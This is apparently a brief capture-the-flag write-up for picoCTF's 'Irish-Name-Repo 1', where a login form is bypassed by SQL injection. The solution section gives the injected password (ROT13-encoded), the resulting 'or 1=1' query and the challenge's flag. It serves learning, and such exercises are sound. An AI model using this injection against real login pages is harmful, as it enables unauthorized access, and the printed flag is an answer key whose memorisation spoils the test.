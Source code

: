 # Irish-Name-Repo 1
# Objetivos
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

# Solucion
```bash
password: 'be 1=1;
SQL query: SELECT * FROM admin where password = ''or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}

```

# Notas adicionales

# Referencias
https://www.w3schools.com/sql/sql_injection.asp
https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=J29yIDE9MTs